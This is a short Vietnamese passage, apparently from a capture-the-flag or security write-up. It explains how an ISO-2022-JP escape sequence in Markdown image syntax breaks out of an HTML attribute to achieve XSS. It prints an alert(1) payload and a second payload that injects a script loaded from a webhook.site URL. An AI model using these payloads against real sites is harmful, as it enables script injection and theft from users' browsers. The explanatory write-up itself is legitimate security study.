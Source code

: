 ![image](./images/image56.png)

Ở đây mình sử dụng payload sau `![%1b$@](a)+%1B(B+![b](onerror=alert(1)//)` để thực hiện XSS. Cụ thể thì khi bung ra image thì nó có dạng `<img src=a alt="%1b$@">%1B(B<img src="onerror=alert(1)//" alt="b"/>` và qua escape character của ISO-JP-2022 thì nó sẽ trở thành `<img src=a alt="¥"><img src="onerror=alert(1)//" alt="b"/>` và lệnh alert sẽ được thực hiện

![image](./images/image57.png)

Từ đó mình có payload sau để thực hiện fetch về webhook
    
`![\x1b$@](a)+\x1B(B+![b](onerror=s=document.createElement('script');s.src='https://webhook.site/30ef8bd4-a54e-4f28-9975-876da0939e17';document.body.appendChild(s);//)`
